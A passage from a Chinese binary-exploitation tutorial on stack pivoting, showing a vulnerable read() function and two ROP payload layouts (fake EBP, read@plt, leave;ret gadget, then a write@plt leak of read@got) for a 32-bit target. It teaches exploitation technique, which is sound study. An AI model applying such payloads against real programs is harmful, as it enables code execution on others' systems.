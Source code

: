 3-2时，EBP指向了fake_ebp_2，这里就是栈底了，ESP指向下一个内存单元，也就是ret_addr处3-3时，ESP继续指向下一个内存单元，EIP的值就是ret_addr的值。此时栈迁移就完毕了，我们就可以在一个新的栈里面构造payload了，通过上述可以发现，我们可以3-3的部分入手进行利用，通过2处的read函数写入满足条件的payload就可以执行命令。看完这三幅图，再结合一开始的描述，此过程的操作理解起来就简单了。 
 
#### 应用一 
程序中sub_8048484()函数存在栈溢出漏洞： 
 
 ```java 
  sub_8048484()
{
  char buf; // [esp+1Ch] [ebp-6Ch]
  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}

  ``` 
  
可以看到明显的栈溢出，虽然溢出的操作空间挺大的，我们依然尝试迁移栈的办法，根据上面的分析构造第一次发送的payload： 
 
 ```java 
  -----------------------
aaaa....                         ｜padding
-----------------------
0x804a820                 ｜fake_ebp
-----------------------
read@plt_addr            ｜ret_addr
-----------------------
0x8048481                 ｜leave_ret
-----------------------
0x0                              ｜fd
-----------------------
0x804a820                 ｜buf
-----------------------
0x64                            ｜nbytes
-----------------------                               

  ``` 
  
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
第二次发送的payload 
 
 ```java 
  -----------------------
0x804a820                ｜padding
-----------------------
write@plt_addr          ｜ret_addr
-----------------------
0x8048369                ｜控制执行流
-----------------------
0x1                              ｜fd
-----------------------
read@got.plt               ｜buf
-----------------------
0x4                             ｜nbytes
-----------------------  
write@plt_addr          ｜ret_addr
-----------------------
0x8048369                ｜控制执行流
-----------------------
0x0                               ｜fd
-----------------------
0x804a84c                ｜buf
-----------------------
0x100                          ｜nbytes
-----------------------      
 ........                           ｜0x804a84c
 ```